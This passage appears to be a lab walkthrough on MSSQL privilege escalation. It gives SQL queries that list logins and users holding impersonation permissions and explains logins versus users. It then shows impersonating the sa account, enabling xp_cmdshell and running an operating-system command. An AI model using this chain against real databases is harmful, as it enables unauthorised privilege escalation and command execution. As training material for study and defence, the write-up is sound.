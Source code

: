 
- This launch the following queries:
```sql
SELECT 'LOGIN' as 'execute as','' AS 'database', pe.permission_name, pe.state_desc,pr.name AS 'grantee', pr2.name AS 'grantor' FROM sys.server_permissions pe JOIN sys.server_principals pr ON pe.grantee_principal_id = pr.principal_Id JOIN sys.server_principals pr2 ON pe.grantor_principal_id = pr2.principal_Id WHERE pe.type = 'IM'
```

![screenshot](pics/mssql_enum_impersonate.png)


- The previous command list all login with impersonation permission

- This launch also the following command on each databases :
```sql
use <db>;
SELECT 'USER' as 'execute as', DB_NAME() AS 'database',pe.permission_name,pe.state_desc, pr.name AS 'grantee', pr2.name AS 'grantor' FROM sys.database_permissions pe JOIN sys.database_principals pr ON pe.grantee_principal_id = pr.principal_Id JOIN sys.database_principals pr2 ON pe.grantor_principal_id = pr2.principal_Id WHERE pe.type = 'IM'
```

- The previous command list all users with impersonation permission

> What is the hell ? login and user, what is the difference ?
> 
> - A “Login” grants the principal entry into the **SERVER**
> - A “User” grants a login entry into a single **DATABASE**

- I found out an image who explain it well and a very nice summary [here](https://blog.sqlauthority.com/2019/05/21/sql-server-difference-between-login-vs-user-security-concepts/)
_“SQL Login is for Authentication and SQL Server User is for Authorization. Authentication can decide if we have permissions to access the server or not and Authorization decides what are different operations we can do in a database. Login is created at the SQL Server instance level and User is created at the SQL Server database level. We can have multiple users from a different database connected to a single login to a server.”_

- Ok let see the result :
- Ok samwell got login impersonation to the user sa.
- So we can impersonate sa with `execute as login` and execute commands with xp_cmdshell
```
exec_as_login sa
enable_xp_cmdshell
xp_cmdshell whoami
```
![screenshot](pics/mssql_comexec.png)
